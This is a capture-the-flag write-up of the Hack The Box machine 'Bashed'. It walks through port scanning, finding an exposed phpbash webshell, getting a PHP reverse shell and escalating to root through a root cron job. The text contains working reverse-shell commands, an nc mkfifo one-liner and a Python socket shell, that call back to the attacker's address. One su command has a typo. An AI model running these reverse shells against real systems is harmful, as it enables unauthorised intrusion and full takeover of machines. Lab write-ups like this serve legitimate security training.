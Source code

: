 # Bashed - hack the box

[![AgdMvj.md.png](https://s2.ax1x.com/2019/04/03/AgdMvj.md.png)](https://imgchr.com/i/AgdMvj)

## Introduction

Target: 10.10.10.68 (OS: Linux)

Kali linux: 10.10.16.44

## Information Enumeration

Firstly, detect the open ports:

```    
# Nmap 7.70 scan initiated Wed Apr  3 20:48:43 2019 as: nmap -sT -p- --min-rate 10000 -oA openports 10.10.10.68
Warning: 10.10.10.68 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.68
Host is up (0.31s latency).
Not shown: 39680 closed ports, 25854 filtered ports
PORT   STATE SERVICE
80/tcp open  http
```

Only port 80 is open, it may be an easy box. And the truth is that it is really an easy box.

Then, detect the services of the port 80, it may be a kind of http service.

```
# Nmap 7.70 scan initiated Wed Apr  3 20:55:27 2019 as: nmap -sC -sV -p 80 -oA services 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.35s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

Nothing special. Then access the http serve and find more.

## Exploit

### Http

Access to `http://10.10.10.68`, and it seems to be a simple blog which talks about `phpbash`.

![AgfJCd.png](https://s2.ax1x.com/2019/04/04/AgfJCd.png)

`phpbash` seems to be a webshell tool. And there is a github repository [phpbash](https://github.com/Arrexel/phpbash) introduces the tool. The introduction of the repo is to drop the file to target and access it by `http://ip/uploads/phpbash.php`. Try to access `http://10.10.10.68/uploads/phpbash.php`. But the file seems not to be here.

Utilize the dirbuster to enumerate the directories.

![AgfTPJ.png](https://s2.ax1x.com/2019/04/04/AgfTPJ.png)

Wow. Find it and open the file `phpbash.php`. Here is the webshell. I have tried to reverse shell by `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.44 1234 >/tmp/f`. But the shell cannot be return. Whatever, I can obtain the user.txt.

![AghFMt.png](https://s2.ax1x.com/2019/04/04/AghFMt.png)

It is convenient to get the reverse shell. So I try to upload a php shell to the target machine. The detailed php script can be found [here](https://github.com/neal1991/htb/blob/master/Bashed/php-reverse-shell.php). And I server the php script by `python -m SimpleHTTPServer 80`. Then download the php script from the target machine. To ensure the script can be written to the target machine. Select a path can be written, for example: `/tmp`.

[![AghBsx.png](https://s2.ax1x.com/2019/04/04/AghBsx.png)](https://imgchr.com/i/AghBsx)

`wget http://10.10.16.44/php-reverse-shell.php`

Then in the kali, set the `nc` listen to port 1234:

`nc -lvnp 1234`

Execute the php script in the target machine `php php-reverse-shell.php`. OK. We obtain the reverse shell.

[![AghhQI.png](https://s2.ax1x.com/2019/04/04/AghhQI.png)](https://imgchr.com/i/AghhQI)

## Privilege escalation

Obtain the user permission is quite easy, and it is not difficult to obtain the root permission. Utilize `sudo -l` to see the permissions of the user. Something interesting found. We can switch to `scriptmanager` user without password.

![Ag4cn0.png](https://s2.ax1x.com/2019/04/04/Ag4cn0.png)

```
su -u scrriptmanager bash -i
```

Try to enumerate the files. And I find an interesting folder inside `/script`. There are two files test.py and test.txt. Try to display the content of `test.py`.

[![AghxO0.png](https://s2.ax1x.com/2019/04/04/AghxO0.png)](https://imgchr.com/i/AghxO0)

The python script is quite straightforwared. It just write `testing 123!` to the file `test.txt`. And if we see the attributes of `test.txt`, the modified time of the file changes each minute. And the file is owned by root. It seems that `root` will execute the python scripts in `/script` folder each minute. So utilize a python script to reverse the root shell(accordint to the information above, the python version of the target machine is 2.7):

```python 
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.16.44",4444));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

Set the kali to listen to port 4444. Download the python script in the target machine and execute. Now, root shell is obtained.

![AgICRJ.png](https://s2.ax1x.com/2019/04/04/AgICRJ.png)

[![AgIks1.png](https://s2.ax1x.com/2019/04/04/AgIks1.png)](https://imgchr.com/i/AgIks1)




